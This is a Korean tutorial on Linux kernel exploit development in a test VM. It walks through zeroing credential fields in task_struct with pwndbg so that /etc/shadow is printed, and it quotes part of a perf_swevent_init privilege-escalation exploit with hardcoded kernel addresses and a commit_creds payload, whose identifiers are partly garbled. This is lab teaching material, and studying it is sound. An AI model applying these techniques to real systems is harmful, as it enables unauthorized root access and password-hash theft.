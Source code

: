 
# Linux Kernel Exploit Development 3

## Introduction

* `prepare_kernel_cred()` 와 `commit_creds()`의 하드 코딩된 주소를 이용하자.<br>위의 함수들은 커널에 의해 export되고 그들의 주소는 동일 리눅스 배포 버전을 다운로드 및 설치 하거나 `/poc/kallsyms` 같은 특정 파일에 권한이 잘되어 있지 않은 경우 알아낼수있다.<br> 따라서 이런 함수들의 하드코딩된 주소들은 일반적으로 PoC code를 위해 사용된다.<br>
<br>

* thread_info structure의 주소를 찾기 위해 heuristic을 사용한다.<br>그리고 이 structure의 첫번째 포인터는 task_struct의 주소를 포함하고 있다.<br>task_struct는 cred structure의 주소를 가져 오는데 사용된다.<br>이것은 방대한 커널 버전들을 타겟으로 한 exploit을 하기위해 추천되는 방법이다.<br>
![stack](https://github.com/Kimdong0219/image/blob/master/stack.png?raw=true)
<br>

----

## Task 1

TestVM의 `./exercises/cred_struct`에서, getuid syscall을 사용하여 uid를 체크하는 간단한 user-space program을 찾을 수 있다.<br>

만약 uid가 0이라면, 이 프로그램은 /etc/shadow파일을 출력해줄 것이다.<br>

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
int main() {
uid_t uid;
uid = getuid();
printf("my uid = %d\n", uid);
if (uid == 0)
system("cat /etc/shadow");
return 0;
}
```
<br>

**`sys_getuid`에 breakpoint를 걸고 `thread_info`의 주소를 계산해라.**<br>

**`cred structure`를 얻기위해 `typecasting`을 사용할 수 있고 필요한 필드를 0으로 세팅해라.**<br>

**결과물로 `uid=0`와 `/etc/shadow`파일을 출력해라!**<br>

### 분석 시작 <br>

sys_getuid의 code를 살펴보자.<br>
<b>https://elixir.bootlin.com/linux/v4.5/source/include/linux/syscalls.h#L225</b> <br>

```c
asmlinkage long sys_getuid(void);
```
<br>

sys_getuid에는 별도로 들어가는 인자가 없다.<br>

```c
   0xffffffff81065650 <+0>:	push   rbp
   0xffffffff81065651 <+1>:	mov    rbp,rsp
   0xffffffff81065654 <+4>:	nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff81065659 <+9>:	mov    rax,QWORD PTR gs:0xc700
   0xffffffff81065662 <+18>:	mov    rax,QWORD PTR [rax+0x458]
   0xffffffff81065669 <+25>:	pop    rbp
   0xffffffff8106566a <+26>:	mov    eax,DWORD PTR [rax+0x4]
   0xffffffff8106566d <+29>:	cmp    eax,0xffffffff
   0xffffffff81065670 <+32>:	cmove  eax,DWORD PTR [rip+0xbc5259]    # 0xffffffff81c2a8d0 <overflowuid>
   0xffffffff81065677 <+39>:	mov    eax,eax
   0xffffffff81065679 <+41>:	ret
```
<br>

breakpoint를 sys_getuid에 걸어본다.<br>
![sys_getuid](https://github.com/Kimdong0219/image/blob/master/uid.png?raw=true)
<br>

```c
pwndbg> i r
rax            0x3e9	1001
rbx            0x0	0
rcx            0x7fff6fbb9450	140735067952208
rdx            0x7fff6fbb97c8	140735067953096
rsi            0x7fff6fbb97b8	140735067953080
```
<br>

rax=0x3e9의 값이 들어있는 것을 확인할 수 있다.<br>

 `0xffffffff81065659 <+9>:	mov    rax,QWORD PTR gs:0xc700`에서 보면 rax값이 gs:0xc700에서 들어오는 것으로 확인된다.<br>
 위의 그림에서 확인하듯이 gs:0xc700가 task_struct가 된다.<br>
breakpoint를 `sys_getuid+9`로 맞춰서 rax에 들어가는 task_struct를 `typecasting` 해보자.<br>

```c
pwndbg> i r
rax            0xffff880079a04500	-131939354786560 <== thread당 할당되기때문에 주소가 매번 다를수있다.
pwndbg> p (struct task_struct*)0xffff880079a04500
$1 = (struct task_struct *) 0xffff880079a04500
pwndbg> p *$1
$2 = {
  state = 0,
  stack = 0xffff880077e02000,
  usage = {
    counter = 2
  },
.....
real_cred = 0xffff880036db5d40 <== real_cred를 찾아야한다.
```
<br>

이렇게 `real_cred`의 주소를 얻어올수있다. <br>

다시 real_cred의 struct를 불러오자.<br>
 앞에서 task_struct가 \$1로 `typecasting`이 되었으므로 `$1.real_cred`로 부르면 된다.<br>

```c
pwndbg> p *$1.real_cred
$6 = {
  usage = {
    counter = 4
  },
  uid = 1001,
  gid = 1001,
  suid = 1001,
  sgid = 1001,
  euid = 1001,
  egid = 1001,
```
<br>

다음과 같이 `uid,gid,suid,sgid,euid,egid` 등등의 구조체안의 인자들을 확인할 수 있다.<br>

이제 `uid,gid,euid,egid`를 바꿔보자.<br>

```c
pwndbg> set $2.real_cred.uid=0
pwndbg> p *$2.real_cred
$9 = {
  usage = {
    counter = 4
  },
  uid = 0
```
real_cred.uid는 주소값이 아닌 자체적인 인자값이므로 (*)을 따로 붙이지 않고 바로 set해준다.<br>
같은 방식으로 `gid,euid,egid`를 바꿔보자.<br>
```c
pwndbg> set $2.real_cred.gid=0
pwndbg> set $2.real_cred.euid=0
pwndbg> set $2.real_cred.egid=0
pwndbg> p *$2.real_cred
uid = 0,
gid = 0,
euid = 0,
egid = 0,
```
**uid,gid,euid,egid가 모두 바뀌었다.**
![shadow](https://github.com/Kimdong0219/image/blob/master/shadow.png?raw=true)
<br>

#### shadow 파일 출력!

----

## Task2

`./exercises/perf`에 Ubuntu 12.04 에서 `perf_swevent_init`를 이용한 exploit 코드가 있다.<br>

이 exploit은 TestVM에 설치된 kernel version에서 `escalate privileges`에 사용될수 있다.<br>

exploit을 컴파일 해서 `root shell`을 획득하라.<br>

이 exploit은 `commit_creds()`와 `prepare_kernel_cred()`에 hardcoded 된 주소를 사용한다.<br>

```c
uint64_t targets[3][3] =
{{0xffffffff81ef67e0, // perf_swevent_enabled
0xffffffff81091630, // commit_creds
0xffffffff810918e0}, // prepare_kernel_cred
{0xffffffff81ef67a0,
0xffffffff81091220,
0xffffffff810914d0},
{0xffffffff81ef5940,
0xffffffff8107ee30,
0xffffffff8107f0c0}
};
void __attribute__((regparm(3))) payload() {
unsigned long stack, task_struct, cred;
int placeholder;
uint32_t *fixptr = (void*)AB(1);
// restore the handler
*fixptr = -1;
commit creds fn commit creds = (commit creds fn)AB(2);
prepare kernel cred fn prepare kernel cred = (prepare kernel cred fn)AB(3);
commit creds(prepare kernel cred((uint64 t)NULL));
}
```
<br>

**하드코딩된 `commit_creds()`와 `prepare_kerenel_cred()`의 주소를 제거하기 위해 이 `payload()`함수를 이용해라.<br>
 `privilege escalation paylod`는 `stack pointer`를 획득 하고 13개 bit에 masking away를 해서 `cred structure`에 위치시켜라.**<br>

 -----
 ## Task2 풀이는 다음주에!
